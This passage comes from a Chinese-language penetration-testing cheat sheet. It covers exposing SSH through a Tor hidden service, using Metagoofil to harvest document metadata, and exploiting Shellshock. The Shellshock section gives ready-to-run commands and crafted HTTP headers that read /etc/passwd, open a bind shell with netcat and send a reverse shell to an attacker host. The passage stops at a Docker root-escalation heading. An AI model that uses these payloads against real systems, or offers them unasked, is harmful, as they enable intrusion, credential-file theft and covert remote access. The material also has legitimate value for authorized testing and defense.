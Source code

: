 # 绑定 ssh 到 tor 服务端口 80
# /etc/tor/torrc
SocksPolicy accept 127.0.0.1
SocksPolicy accept 192.168.0.0/16
Log notice file /var/log/tor/notices.log
RunAsDaemon 1
HiddenServiceDir /var/lib/tor/ssh_hidden_service/
HiddenServicePort 80 127.0.0.1:22
PublishServerDescriptor 0
$ /etc/init.d/tor start
$ cat /var/lib/tor/ssh_hidden_service/hostname
3l5zstvt1zk5jhl662.onion

# ssh 客户端连接
$ apt-get install torsocks
$ torsocks ssh login@3l5zstvt1zk5jhl662.onion -p 80
```
Metagoofil – 元数据收集工具

注：Metagoofil 是一款利用Google收集信息的工具。
```
# http://www.edge-security.com/metagoofil.php
# 它可以自动在搜素引擎中检索和分析文件，还具有提供Mac地址，用户名列表等其他功能
$ python metagoofil.py -d example.com -t doc,pdf -l 200 -n 50 -o examplefiles -f results.html

利用 Shellshock

# 一个发现并利用服务器 Shellshock 的工具
# https://github.com/nccgroup/shocker
$ ./shocker.py -H 192.168.56.118  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose

# 查看文件
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80

# 绑定 shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80

# 反弹 Shell
$ nc -l -p 443
$ echo "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.56.103 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80
```
获取 Docker 的 Root
```
# 获取  Docker 的 Root
# user 必须在 docker 用户组中